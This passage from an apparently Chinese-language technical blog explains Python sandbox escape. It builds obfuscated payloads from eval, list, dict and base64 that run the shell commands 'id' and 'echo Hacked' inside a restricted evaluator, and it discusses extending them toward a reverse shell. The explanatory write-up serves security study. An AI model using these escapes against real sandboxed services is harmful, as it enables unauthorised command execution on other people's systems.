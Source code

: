 当然，上面这个 payload，同样存在特殊字符无法构造的问题，执行 `whoami` 这种单一的命令是 ok 的，如果想要反弹个 shell 就没法搞了 ![Python 沙箱逃逸的通解探索之路](picture/3-1664366582.png)

好在思路有了，只需要换一下库就行。`dict` 参数要求是合法的变量名，那么我们很容易想到 base64 里的字符大部分都是 `0-9a-zA-Z` 构成，还有特殊的字符 `=`、`/`、`+`。后面我们会挨个解决这三个字符的问题，先展示下 payload：

```python
[eval][
    bool(
        exec(
            bytes([
                ord(j)
                for(i)in(
                    list(
                        open(
                            str(__import__(list(dict(base64=1))[0]))[23:-2]
                        )
                    )
                )[:-5]
                for(j)in(i)
            ])
        )
    )
](
    b64decode(
        list(
            dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignaWQnKS5yZWFkKCkg=1)
        )[0]
    )
)
```

包含的命令为：

![Python 沙箱逃逸的通解探索之路](picture/9-1664366583.png)

更进一步，这个 payload 里除了 `eval`、`list`、`dict`、`for`、`in`、`数字` 之外其他常量/函数/关键字都不是必要的。都可以用 `eval` + `list` + `dict` 构造。所以这个 payload 可以变成这样：

```python
CMD = [eval][eval(list(dict(b_o_o_l=1))[0][::2])(eval(list(dict(e_x_e_c=1))[0][::2])(eval(list(dict(b_y_t_e_s=1))[0][::2])([eval(list(dict(o_r_d=1))[0][::2])(j)for(i)in(list(eval(list(dict(o_p_e_n=1))[0][::2])(eval(list(dict(s_t_r=1))[0][::2])(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_a_s_e_6_4=1))[0][::2]))[23:-2])))[:-5]for(j)in(i)])))](eval(list(dict(b_6_4_d_e_c_o_d_e=1))[0][::2])(list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

至此，还有三个特殊字符需要解决：`=`、`/`、`+`。一旦 payload 经过 base64 编码之后出现这三个字符就没法当做 `dict` 的参数了。

仔细回想一下小学 2 年级就学过的 base64 编码 ![Python 沙箱逃逸的通解探索之路](picture/7-1664366584.png)：
